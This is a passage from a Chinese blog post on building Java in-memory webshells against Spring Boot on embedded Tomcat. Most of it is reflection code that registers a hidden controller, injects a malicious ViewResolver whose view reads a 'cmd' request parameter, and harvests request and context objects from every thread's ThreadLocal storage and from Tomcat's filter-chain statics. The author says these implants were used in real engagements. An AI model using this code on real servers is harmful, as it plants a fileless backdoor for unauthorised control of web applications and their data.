        RequestMethodsRequestCondition ms = new RequestMethodsRequestCondition(RequestMethod.GET,RequestMethod.POST);
        RequestMappingInfo mapping = new RequestMappingInfo(patterns, ms, null, null, null, null, null);
        Method registerHandlerMethod= getMethod("org.springframework.web.servlet.mvc.method.annotation" +
                        ".RequestMappingHandlerMapping",
                "registerHandlerMethod", Object.class, Method.class, RequestMappingInfo.class);
        Method method = Foo.class.getDeclaredMethod("foo", HttpServletRequest.class, HttpServletResponse.class);
        registerHandlerMethod.invoke(mappingHandlerMapping, new Foo(), method, mapping);
    }

    public static void injectViewer() throws Exception{
        injectFooController();

        WebApplicationContext context = (WebApplicationContext) RequestContextHolder.currentRequestAttributes().getAttribute("org.springframework.web.servlet.DispatcherServlet.CONTEXT", 0);
        Object tomcatServer = getFieldValue("org.springframework.boot.web.servlet.context" +
                        ".ServletWebServerApplicationContext",
                "webServer", context);
        Object tomcat = getFieldValue("org.springframework.boot.web.embedded.tomcat.TomcatWebServer", "tomcat",
                tomcatServer);
        Object server = getFieldValue("org.apache.catalina.startup.Tomcat", "server", tomcat);
        Object[] services = (Object[]) getFieldValue("org.apache.catalina.core.StandardServer",
                "services", server);
        Object service = services[0];
        //拿到StandardEngine
        StandardEngine engine = (StandardEngine) getFieldValue("org.apache.catalina.core.StandardService", "engine", service);

        HashMap<String, Container> children = (HashMap<String, Container>) getFieldValue("org.apache.catalina.core.ContainerBase", "children",
                engine);

        StandardHost host = (StandardHost) children.get(engine.getDefaultHost());

        HashMap<String, Container>  children2 = (HashMap<String, Container>) getFieldValue("org.apache.catalina.core" +
                        ".ContainerBase", "children",
                host);

        //TomcatEmbeddedContext
        StandardContext  standardContext = (StandardContext) children2.get("");


        HashMap<String, Container>  children3 =(HashMap<String, Container>) getFieldValue("org.apache.catalina.core" +
                        ".ContainerBase", "children",
                standardContext);
        
        for (String name:children3.keySet()) {
            if ("dispatcherServlet".equals(name)) {
                StandardWrapper wrapper = (StandardWrapper) children3.get(name);

                DispatcherServlet servlet = (DispatcherServlet) wrapper.getServlet();

                List<ViewResolver> viewResolvers = (List<ViewResolver>) getFieldValue("org.springframework.web.servlet.DispatcherServlet",
                        "viewResolvers", servlet);

                viewResolvers.add(0,new MyViewResolver());
            }
        }
    }

```


```java
public class Foo {
    public String foo(HttpServletRequest request, HttpServletResponse response) throws Exception {
        return "foo_view";
    }
}

public class MyView implements SmartView {
    @Override
    public String getContentType() {
        return null;
    }

    @Override
    public void render(Map<String, ?> model, HttpServletRequest request, HttpServletResponse response) throws Exception {

        request.getParameter("cmd");
    }

    @Override
    public boolean isRedirectView() {
        return true;
    }
}

public class MyViewResolver implements ViewResolver {
    @Override
    public View resolveViewName(String viewName, Locale locale) throws Exception {
        if ("foo_view".equals(viewName)) {
            return new MyView();
        }else{
            return null;
        }

    }
}
```

## 6. 补充

### 6.1 Filter中写内存马的误解

Spring RequestContextHolder获取context、ApplicationFilterChain获取request ，前文所说的这二者，都为多线程ThreadLocal线程安全，Controller/Servlet访问结束后这些对象也被回收。

但即便在不同线程或不在其生命周期内，我们还是能获取这些对象。

该函数遍历所有线程的threadLocals字段，并查找其中的table，返回符合预期的实例对象

```java
 public static List<Object> getThreadLocalValue(Class targetClass,boolean isBreak){
        List<Object> objects = new ArrayList<>();
        try{
            Method getThreads = Thread.class.getDeclaredMethod("getThreads");
            getThreads.setAccessible(true);
            Thread[] threads = (Thread[]) getThreads.invoke(null);
            for (Thread thread : threads) {
                try {
                    if (thread!=null) {
                        Field threadLocalsField = Thread.class.getDeclaredField("threadLocals");
                        threadLocalsField.setAccessible(true);
                        //ThreadLocalMap
                        Object threadLocals = threadLocalsField.get(thread);
                        Field tableField = Class.forName("java.lang.ThreadLocal$ThreadLocalMap").getDeclaredField("table");
                        tableField.setAccessible(true);
                        //hreadLocal.ThreadLocalMap.Entry[]
                        Object[]  table = (Object[])tableField.get(threadLocals);
                        for (Object entry : table) {
                            if (entry != null) {
                               // Field field = Class.forName("java.util.HashMap$Node").getDeclaredField("value");
                                Field field =
                                        Class.forName("java.lang.ThreadLocal$ThreadLocalMap$Entry").getDeclaredField(
                                                "value");
                                field.setAccessible(true);
                                Object value = field.get(entry);
                                if (targetClass.isInstance(value) ) {
                                    objects.add(value);
                                    if (isBreak) {
                                        return objects;
                                    }
                                }
                            }
                        }
                    }
                } catch (Exception e) {
                }
            }
        }catch(Exception e){
        }
        return objects;
    }
```


spring mcv中，我们也能在任意地方获取到spring context

```java
		Thread t = new Thread(new Runnable() {
            @Override
            public void run() {
                List<Object> objects = getThreadLocalValue(ServletRequestAttributes.class,true);
                if (objects.size() > 0) {
                    RequestAttributes requestAttributes = (RequestAttributes) objects.get(0);
                    WebApplicationContext context = (WebApplicationContext)requestAttributes.getAttribute("org" +
                            ".springframework.web.servlet.DispatcherServlet.CONTEXT", 0);
                    System.out.println(context);
                }
            }
        });
        t.start();
```


当代码执行在Filter中时，我们也能从ApplicationFilterChain获取request

```java
 @Override
    public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {
        try {
            Field WRAP_SAME_OBJECT = Class.forName("org.apache.catalina.core.ApplicationDispatcher")
                    .getDeclaredField("WRAP_SAME_OBJECT");
            nofinal(WRAP_SAME_OBJECT);
            //将静态布尔值设置为true
            WRAP_SAME_OBJECT.setBoolean(null, true);
            Class ApplicationFilterChain = Class.forName("org.apache.catalina.core.ApplicationFilterChain");
            Field lastServicedRequest =ApplicationFilterChain.getDeclaredField("lastServicedRequest");
            nofinal(lastServicedRequest);
            if (lastServicedRequest.get(null) == null) {
                lastServicedRequest.set(null, new ThreadLocal<ServletRequest>());
            }
            Field lastServicedResponse = ApplicationFilterChain.getDeclaredField("lastServicedResponse");
            nofinal(lastServicedResponse);
            if (lastServicedResponse.get(null) == null) {
                lastServicedResponse.set(null, new ThreadLocal<ServletRequest>());
            }

            HttpServletRequest request = (HttpServletRequest) servletRequest;
            if (lastServicedRequest.get(null) != null && request.getParameter("test")!=null) {
                while (true) {
                    List<Object> objects = getThreadLocalValue(ServletRequest.class, true);
                    if (objects.size() > 0) {
                        //org.apache.catalina.connector.RequestFacade@5a349d46
                        System.out.println(objects.get(0));
                        break;
                    }
                }
            }
            } catch (Exception e) {
        }
        filterChain.doFilter(servletRequest,servletResponse);
    }
```

### 6.2 ASM查找static字段

前文有讲到，获取关键的Object通常需要我们找到与其有关联的静态字段或是单例模式对象（单例也是静态字段），前文描述了隐式对象、MBean机制、ApplicationFilterChain静态字段，那一般情况下，我们可以如何快速查找一些有用的静态字段呢？

我们可以通过ASM遍历相关JAR包的class，保存我们感兴趣的类及其子类，随后查找所有类中static字段类型申明中包含该类，最后我们通过debug查看该字段是否含有我们感兴趣的对象。

我们首先将spring-boot相关jar包复制到一个文件夹中

```
mvn -f pom.xml dependency:copy-dependencies -DoutputDirectory="spring-boot-libs"
```

main函数代码如下，获取相关子类，并查找static字段：



编写查找子类的Visitor，并循环调用该方法获取所有子类，得到classNames



编写获取static字段的Visitor，判断字段是否static，且类型中是否含有我们关注的类



代码参考 https://github.com/turn1tup/JavaStaticFieldSearch （还有改进空间）

org/springframework/context/support/LiveBeansView field: applicationContexts

### 6.3 Timer

看到有人提到通过使用死循环新线程来写内存马https://su18.org/post/memory-shell-2/#%E5%AE%9E%E7%8E%B0-2

但文章给的demo是`假`的（每100秒执行1次），即便解决了这个问题，另外还有异步响应问题需要解决，但笔者也不想对此研究了，这里做备忘。

## 7. 结语

起初是在实战中经常用到内存马，知其然，不知其所以然，导致在某些复杂情况下花费了不少时间调试。

经此文，拨云雾而窥其山。
